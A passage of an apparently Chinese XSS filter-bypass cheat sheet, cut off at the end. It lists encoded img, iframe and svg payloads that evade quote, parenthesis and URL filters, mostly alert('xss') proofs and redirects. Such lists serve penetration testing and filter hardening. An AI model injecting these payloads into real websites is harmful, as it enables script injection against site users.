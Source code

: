 ```

<img src\="x" onerror\="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;"\>

<img src\="x" onerror\="eval('\\u0061\\u006c\\u0065\\u0072\\u0074\\u0028\\u0022\\u0078\\u0073\\u0073\\u0022\\u0029\\u003b')"\>

url 编码绕过

<img src\="x" onerror\="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))"\>

    <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

Ascii 码绕过

<img src\="x" onerror\="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))"\>

hex 绕过

    <img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

八进制

    <img src=x onerror=alert('\170\163\163')>

base64 绕过

    <img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">

    <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">

## 过滤双引号，单引号

1.如果是 html 标签中，我们可以不用引号。如果是在 js 中，我们可以用反引号代替单双引号

    <img src="x" onerror=alert(`xss`);>

2.使用编码绕过，具体看上面我列举的例子，我就不多赘述了

## 过滤括号

当括号被过滤的时候可以使用 throw 来绕过

    <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">

## 过滤 url 地址

### 使用 url 编码

    <img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>

### 使用 IP

1.十进制 IP

    <img src="x" onerror=document.location=`http://2130706433/`>

2.八进制 IP

    <img src="x" onerror=document.location=`http://0177.0.0.01/`>

3.hex

```